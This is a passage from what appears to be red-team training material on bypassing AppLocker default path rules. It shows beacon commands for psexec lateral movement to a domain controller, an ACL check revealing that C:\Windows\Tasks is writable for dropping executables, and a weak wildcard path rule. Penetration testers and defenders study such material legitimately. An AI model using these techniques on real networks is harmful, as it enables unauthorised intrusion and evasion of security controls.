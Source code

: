The default rules allow execution from anywhere within C:\Program Files and C:\Windows (including subdirectories).  Moving laterally to a protected machine via psexec is trivial, because the service executable is written into C:\Windows.
```
beacon> jump psexec64 dc.dev-studio.com smb
Started service b8f5313 on dc.dev-studio.com
[+] established link to child beacon: 10.10.150.10
```
  

If you're on a protected machine as a standard user, there are several directories within C:\Windows that are writeable.  One such example is `C:\Windows\Tasks`.  This would allow us to copy an executable into this directory and run it.
```
beacon> powershell Get-Acl C:\Windows\Tasks | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Windows\Tasks
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : CREATOR OWNER Allow  268435456
         NT AUTHORITY\Authenticated Users Allow  CreateFiles, ReadAndExecute, Synchronize    <---
         NT AUTHORITY\SYSTEM Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         BUILTIN\Administrators Allow  FullControl
Audit  : 
Sddl   : O:SYG:SYD:PAI(A;OICIIO;GA;;;CO)(A;;0x1200ab;;;AU)(A;OICIIO;GA;;;SY)(A;;FA;;;SY)(A;OICIIO;GA;;;BA)(A;;FA;;;BA)
```
  

When enumerating the rules, you may also find additional weak rules that system administrators have put in.  This is an example of a rule I've genuinely seen in production:
```
<FilePathCondition Path="*\AppV\*"/>
```